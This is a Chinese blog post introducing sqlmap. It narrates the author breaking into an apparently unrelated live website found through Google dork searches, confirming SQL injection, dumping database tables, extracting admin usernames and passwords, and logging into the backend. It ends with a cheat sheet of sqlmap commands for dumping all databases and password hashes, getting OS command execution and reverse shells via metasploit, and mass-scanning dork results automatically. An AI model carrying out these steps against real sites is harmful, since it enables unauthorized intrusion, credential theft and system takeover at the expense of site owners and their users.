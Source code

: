 ```yaml
---
layout: post
title: sqlmap 入门
category: old_blog
tags: sqlmap
keywords: sqlmap
description:
---
```


> 本文写于 2015.12.11
>
> 本人是遵纪守法的好少年，已上报给乌云

这次攻击毫无技术门槛，任何人都可以复制。只因是自己的第一次嘛，大家都懂的，趁这个机会也学习了些 sqlmap 和 sql 的知识，哈哈哈哈，开心就好。

Sqlmap 是一款非常强大的开源 sql 自动化注入工具，可以用来检测和利用sql注入漏洞。它由python语言开发而成，因此需要安装python环境。

注意： sqlmap 只用来检测和利用 sql 注入点，并不能扫描出网站有哪些漏洞。

首先当然是找到目标，通过一些 Google 的搜索技巧可以找到些问题网站，下面是几个常见的：
- `inurl:index.php?id=`
- `inurl:trainers.php?id=`
- `inurl:buy.php?category=`
- `inurl:article.php?ID=`
- `inurl:play_old.php?id=`
- `inurl:declaration_more.php?decl_id=`
- `inurl:pageid=`
- `inurl:games.php?id=`
- `inurl:page.php?file=`
- `inurl:newsDetail.php?id=`
- `inurl:gallery.php?id=`

通过搜索 `inurl:newsDetail.php?id=` ，我发现了下面这个网站。

![](/post_pic/sqlmap_1.jpg)

点开，在网址最后输入一个单引号( ‘ )，出现如下错误信息，说明这个站点存在 sql 注入漏洞。

![](/post_pic/sqlmap_2.jpg)

接下来利用 Sqlmap 来进行信息收集，先看几个常用的参数：
- `-u` ：该参数后面跟注入的目标URL。
- `–dbms` ：后面是目标站点所使用的数据库类型，注意要用分号来包含。
- `–current-user` ：该参数含义是显示当前管理数据的用户，同时也会显示最终确定的数据库类型。
- `–current-db` ：显示当前连接的数据库名称。
- `–tables` ：列出当前数据库的所有的表名。
- `-C` ：指定我们要猜的字段内容，与 -dump 一起使用。
- `-D` ：指定数据库名称。
- `–columns` ：列出指定表中的字段。
- `-v` ：指定哪个字段开始列出结果，一般后面跟0。

下面开始实战。

第一步，我们来扫面当前网站的用户。

![](/post_pic/sqlmap_3.jpg)

得到了数据库版本和当前用户信息。

![](/post_pic/sqlmap_4.jpg)

第二步，获取当前数据库。

![](/post_pic/sqlmap_5.jpg)

获取的数据库名称。

![](/post_pic/sqlmap_6.jpg)

第三步，利用已知信息，结合参数“–tables”，来猜数据库中的表名。

![](/post_pic/sqlmap_7.jpg)

获取的数据库中的表名。

![](/post_pic/sqlmap_8.jpg)

注意：一般与网站后台相关的字段，比如“username, password, admin”等登陆相关的表名要重点关注。

第四步，在这个例子中，相关的是“dl”这个表。

![](/post_pic/sqlmap_9.jpg)

得到下面这个表。

![](/post_pic/sqlmap_10.jpg)

第五步，见证奇迹的时刻到了，利用参数组合获取信息。

![](/post_pic/sqlmap_11.jpg)

得到下面的用户名和密码。

![](/post_pic/sqlmap_12.jpg)

第六步，登陆后台后我们就大功告成了。

![](/post_pic/sqlmap_13.jpg)

就这样，打完收工，好简单啊感觉。

参考资料：
- http://sqlmap.org/
- http://drops.wooyun.org/tips/143
- http://drops.wooyun.org/tips/401


#### 基本步骤
```
sqlmap -u “http://url/news?id=1“ –current-user 获取当前用户名称
sqlmap -u “http://url/news?id=1“ –current-db 获取当前数据库名称
sqlmap -u “http://url/news?id=1“ –tables -D “db_name” 列表名
sqlmap -u “http://url/news?id=1“ –columns -T “tablename” -D “db_name” -v 0 　　　　　 列字段
sqlmap -u “http://url/news?id=1“ –dump -C “column_name” -T “table_name” -D “db_name” -v 0 获取字段内容
```

#### 信息获取
```
sqlmap -u “http://url/news?id=1“ –smart –level 3 –users smart(智能)，level(执行测试等级)
sqlmap -u “http://url/news?id=1“ –dbms “mysql” –users users列数据库用户，dbs列数据库
sqlmap -u “http://url/news?id=1“ –passwords 数据库用户密码
sqlmap -u “http://url/news?id=1“ –passwords -U root -v 0 列指定用户数据库密码
sqlmap -u “http://url/news?id=1“ –dumps -C “column_name” -T “table_name” -D “db_name” –start 1 –stop 20 　　　 列出指定字段
sqlmap -u “http://url/news?id=1“ –dump-all -v 0 列出所有数据库所有表
sqlmap -u “http://url/news?id=1“ –privileges -U root 查看指定用户权限
sqlmap -u “http://url/news?id=1“ –is-dba -v 1 是否是数据库管理员
sqlmap -u “http://url/news?id=1“ –roles 枚举数据库用户角色
sqlmap -u “http://url/news?id=1“ –udf-inject 导入用户自定义函数(获取系统权限！)
sqlmap -u “http://url/news?id=1“ –dump-all –exclude-sysdbs -v 0 列出当前库所有表
sqlmap -u “http://url/news?id=1“ –union-cols union查询表记录
sqlmap -u “http://url/news?id=1“ –cookie “COOKIE_VALUE” cookie注入
sqlmap -u “http://url/news?id=1“ –data “id=3” post注入
sqlmap -u “http://url/news?id=1“ -v 1 -f 指纹判别数据库类型
sqlmap -u “http://url/news?id=1“ –proxy “http://127.0.0.1:8118“ 代理注入
sqlmap -u “http://url/news?id=1“ –string “STRING_ON_TRUE_PAGE” 指定关键词
sqlmap -u “http://url/news?id=1“ –sql-shell 执行指定sql命令
sqlmap -u “http://url/news?id=1“ –os-cmd=whoami 执行系统命令
sqlmap -u “http://url/news?id=1“ –os-shell 系统交换shell
sqlmap -u “http://url/news?id=1“ –os-pwn 反弹shell
sqlmap -u “http://url/news?id=1“ –reg-read 读取windows系统注册表
sqlmap -u “http://url/news?id=1“ –dbs-o “sqlmap.log” 保存进度
sqlmap -u “http://url/news?id=1“ –dbs-o “sqlmap.log” –resume 恢复已保存进度
sqlmap -u “http://url/news?id=1“ –msf-path=/…/msf2 –os-pwn 反弹shell需要metasploit路径
sqlmap -u “http://url/news?id=1“ –tamper “base64encode.py” 加载脚本(可利用绕过注入限制)
sqlmap -g “google语法” –dump-all –batch google搜索注入点自动跑出所有字段
```
